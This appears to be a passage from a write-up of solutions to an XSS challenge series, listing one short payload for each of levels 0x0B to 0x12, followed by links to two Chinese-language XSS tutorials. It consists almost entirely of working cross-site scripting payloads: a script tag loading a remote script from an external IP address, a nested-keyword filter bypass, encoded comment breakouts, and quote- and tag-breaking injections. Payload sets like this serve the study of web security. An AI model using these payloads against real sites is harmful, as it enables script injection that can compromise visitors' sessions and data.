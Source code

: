### 0x0B
```
<script src="http://118.25.20.59/alert.js"></script>
```

### 0x0C
```
<scscriptript src="http://118.25.20.59/alert.js"></scrscriptipt>
```

### 0x0D
```

alert(1)
-->


%0Aalert(1)%0A--%3E
```

### 0x0E


### 0x0F
```
');alert('1
```


### 0x10
```
alert(1)
```

### 0x11
```
");alert("1
```


### 0x12
```
</script><script>alert(1)</script>
```





# 参照
[跨站的艺术-XSS入门与介绍](http://www.fooying.com/the-art-of-xss-1-introduction/)
[浅谈跨站脚本攻击与防御](https://thief.one/2017/05/31/1/)
